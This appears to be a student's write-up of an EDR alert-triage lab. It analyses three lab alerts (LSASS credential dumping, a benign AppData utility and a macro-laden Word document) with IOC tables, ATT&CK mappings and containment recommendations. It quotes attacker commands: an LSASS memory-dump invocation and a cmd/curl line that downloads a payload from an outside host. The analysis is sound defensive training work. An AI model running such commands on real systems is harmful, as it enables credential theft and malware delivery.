| **What** | Unsigned `syncsvc.exe` ran with `-ma lsass.exe C:\Users\Public\dump_2025.dmp`, read LSASS memory and wrote a dump to disk. It also touched a service key and a Run key in the registry, then tried to upload the dump to `files-wetransfer.com` (100.42.28.64, port 80). EDR blocked the upload. Threat intel matched a known credential dumping tool. |
| **When** | Detection: Nov 22 2026, 17:21. The process panel shows `syncsvc.exe` running 14:12:57-14:13:10. The two times don't line up in the screenshots and the timezone isn't shown. |
| **Where** | `WIN-ENG-LAPTOP03`; binary at `C:\Users\haris.khan\AppData\Local\Temp\syncsvc.exe`; dump at `C:\Users\Public\dump_2025.dmp` |
| **Why** | Looks like credential theft: dump LSASS to harvest credentials, keep a foothold, and exfiltrate the dump. High severity, confidence 85. |

**IOCs and actions shown**

| Type | Value | Action |
|---|---|---|
| File path | `C:\Users\haris.khan\AppData\Local\Temp\syncsvc.exe` | Flagged, Quarantined |
| IP | `100.42.28.64` | Blocked by firewall |
| Domain | `files-wetransfer.com` | Blocked |
| Registry key | `HKCU\...\Run\syncsvc` | Flagged |
| SHA256 | `7a1c5f2c2d451e9e27b2d3eec5a1989b7796f5c45a647889bf36c1f71d6fe8e0` | Quarantined |

**MITRE ATT&CK**

- The console labels this as tactic *Persistence*, technique T1003.002.
- The process threat intel lists T1003.001.
- My mapping from the evidence:

| Technique | Tactic | Evidence |
|---|---|---|
| T1003.001 OS Credential Dumping: LSASS Memory | Credential Access | `syncsvc.exe` read `lsass.exe` memory |
| T1547.001 Registry Run Keys | Persistence | `HKCU\...\Run\syncsvc` |
| T1543.003 Windows Service | Persistence | `HKLM\SYSTEM\...\Services\syncsvc` |
| T1567 Exfiltration Over Web Service | Exfiltration | Attempted upload, blocked |

I'm noting the console's tactic label as a discrepancy, not correcting it in the screenshots.

**Open items (not shown in screenshots):** removal of the dump file, removal of the Run key and service entry, and whether credentials need resetting.

---

### 5.2 Execution from AppData Directory (DESKTOP-DEV01)







Detection details, risk assessment and process chain screenshots







<!-- TODO: add screenshot (Actions/Response tab) -->

**Five Ws (from visible evidence)**

| | |
|---|---|
| **Who** | User `daniel.richards` |
| **What** | Unsigned `UpdateAgent.exe`, launched by `explorer.exe`, made an outbound HTTP connection to `10.10.20.5:8080`. Threat intel calls it a known internal IT utility tool, and its hash is marked safe in the internal DB. |
| **When** | Detection: Nov 22 2026, 16:52. The process panel shows the process running 13:09:11-13:09:17 UTC. |
| **Where** | `DESKTOP-DEV01`; `C:\Users\daniel.richards\AppData\Roaming\UpdateAgent.exe` |
| **Why** | The detection fired on an unsigned binary in a user-writable path making network calls, a pattern also seen in droppers. The destination is internal and the tool is known, so my reading is low risk. Confidence shown: 35, Medium. |

**MITRE ATT&CK:** the console shows Execution / T1204.002 (User Execution: Malicious File). With a known internal tool and an internal destination, that fit is weak. I'd confirm with IT that the tool is approved before closing.

| Type | Value | Action |
|---|---|---|
| File name | `UpdateAgent.exe` | Observed |
| File path | `C:\Users\daniel.richards\AppData\Roaming\UpdateAgent.exe` | Observed |
| IP | `10.10.20.5` | Internal (Safe) |
| Hash | `9f9f2e4a44d1a3f711e26c8ab60b392d34e2b36b012f…` (truncated in console) | Marked Safe |

---

### 5.3 Initial Access via Malicious Office Document (DESKTOP-HR01)







Detection details, risk assessment and process chain screenshots











<!-- TODO: add screenshot (Actions/Response tab) -->

**Process chain:** `WINWORD.EXE /n "invoice.docm"` → `cmd.exe /c curl http://ayebd.thm/payload.exe -o C:\Users\Public\install.exe` → `curl.exe` → `install.exe` (unsigned, quarantined by EDR, not launched).

**Five Ws (from visible evidence)**

| | |
|---|---|
| **Who** | User `alice.thomas` |
| **What** | Opening the macro-enabled `invoice.docm` in Word spawned CMD, which ran cURL to download a payload from `ayebd.thm` (1.161.138.92, port 80) to `C:\Users\Public\install.exe`. The file was saved but never executed, which fits staging. |
| **When** | Detection: Nov 22 2026, 18:00. The process panel shows Word running 11:12:47-11:13:12, CMD 11:12:49-11:12:54 and cURL 11:12:52-11:12:55. The timezone isn't shown. |
| **Where** | `DESKTOP-HR01`; document in `Downloads`, payload in `C:\Users\Public\` |
| **Why** | A phishing attachment used a macro to pull down a second-stage payload. High severity, confidence 95. |

| Type | Value | Source | Action |
|---|---|---|---|
| File path | `C:\Users\Public\install.exe` | Suspicious binary | Quarantined |
| File name | `install.exe` | Dropped payload | Flagged |
| Domain | `ayebd.thm` | C2 server | Blocked |
| IP | `1.161.138.92` | External download | Logged |
| SHA256 | `9e107d9d372bb6826bd81d3542a419d6eaf1e3f5b94fc3b1f69413c5c30ef2e5` | Unknown executable | Analyzed, Flagged |
| File path | `C:\User\alice\Downloads\invoice.docm` (as displayed) | Suspicious document | Quarantined |

**MITRE ATT&CK**

- The console shows Initial Access / T1566.001 (Spearphishing Attachment).
- My additions from the evidence:

| Technique | Evidence |
|---|---|
| T1204.002 User Execution: Malicious File | User opened the macro document |
| T1059.003 Windows Command Shell | Word spawned `cmd.exe /c` |
| T1105 Ingress Tool Transfer | `curl` downloaded `install.exe` |

**Observation:** the SHA256 shown for `curl.exe` here is identical to the one for `syncsvc.exe` in 5.1. This is probably a quirk of the lab data, so I'm not treating it as a link between the two incidents.

---

### Final questions

Practical task questions and room completion





## Triage Summary

My reading of the three investigated alerts, based only on what the console showed.

| Alert | Host | My verdict | Why | Containment shown in console |
|---|---|---|---|---|
| Credential Dumping via LSASS | WIN-ENG-LAPTOP03 | Likely true positive, highest priority | Unsigned tool read LSASS memory, wrote a dump, added persistence keys and tried to upload the dump | Binary and hash quarantined, upload blocked |
| Malicious Office Document | DESKTOP-HR01 | Likely true positive, contained | Word → CMD → cURL chain pulled a payload from an external domain | Payload quarantined, not launched, domain blocked |
| Execution from AppData | DESKTOP-DEV01 | Likely benign, needs confirmation | Known internal tool, internal destination, low confidence (35) | None needed, marked safe in internal DB |

**Priority order I'd work in:** LSASS first because credentials may be exposed and persistence was added, then the HR01 document because the payload was contained, then the AppData alert.

**What I would do next (recommendations, not steps shown in the room):**

| Alert | Next steps |
|---|---|
| LSASS | Isolate the host, remove the dump file, Run key and service entry, reset `haris.khan` credentials, and search other hosts for the `syncsvc.exe` hash and `files-wetransfer.com` |
| HR01 | Find the original email and other recipients of `invoice.docm`, confirm `install.exe` never ran, and block the sender |
| AppData | Confirm with IT that `UpdateAgent.exe` is an approved tool and check why it is unsigned |

## Reflection: How I'd Write the Escalation Notes

The room did not ask for a written analyst comment, so this is my own after-the-fact practice, not part of the lab.

> **LSASS credential dumping, WIN-ENG-LAPTOP03, user haris.khan.** Unsigned `syncsvc.exe` (Temp folder, launched by `explorer.exe`) read `lsass.exe` memory and wrote `C:\Users\Public\dump_2025.dmp`. It created Run key and service persistence and attempted an upload to `files-wetransfer.com`, which EDR blocked. Credential exposure is possible. Recommend host isolation, credential reset and a fleet-wide hunt for the hash and domain. Note: console tactic label says Persistence, but the behaviour maps to Credential Access (T1003.001).

> **Malicious Office document, DESKTOP-HR01, user alice.thomas.** `invoice.docm` opened in Word spawned `cmd.exe`, which used `curl` to download `install.exe` to `C:\Users\Public\`. The payload was quarantined and never executed. Recommend finding the delivery email, checking other recipients and blocking the sender and `ayebd.thm`.

## Key Takeaways

- EDR value comes from combining process chains, command lines, network, file and registry activity in one view.
- Antivirus relies on signatures, so macros, obfuscated PowerShell and memory injection can slip past it. EDR flags the behaviour.
- My triage flow: alert summary → severity and confidence → process chain → IOCs → actions taken.
- Unsigned binaries running from Temp, AppData or Public folders deserve a closer look, but context (known tool, internal destination) can lower priority, as on DESKTOP-DEV01.
- Console labels can disagree with the evidence (the LSASS tactic), so I check the ATT&CK mapping myself.
- Blocked or quarantined does not mean closed: persistence entries and dropped files still need cleanup.

## Glossary

| Term | Meaning |
|---|---|
| EDR | Endpoint Detection and Response: agents on endpoints that record activity, detect threats and allow response |
| Telemetry | The activity data an agent collects, such as processes, network connections, files and registry changes |
| Agent / sensor | The EDR software on each endpoint that collects telemetry |
| Parent-child process | A process and the process it launched; odd pairs (Word → CMD) are a common detection signal |
| IOC | Indicator of Compromise: a file path, hash, IP, domain or registry key linked to malicious activity |
| C2 | Command and control: attacker infrastructure that malware talks to |
| LSASS | Windows process that holds credentials in memory, a common credential dumping target |
| Staging | Placing a payload on a host before it is run |
| Exfiltration | Sending stolen data out of the network |

## Skills Demonstrated

`EDR` `Alert Triage` `Process Tree Analysis` `IOC Analysis` `MITRE ATT&CK Mapping` `Credential Dumping Detection` `Phishing Macro Analysis` `Endpoint Telemetry` `Five Ws Reporting` `Incident Documentation`

[Back to all labs](../../README.md)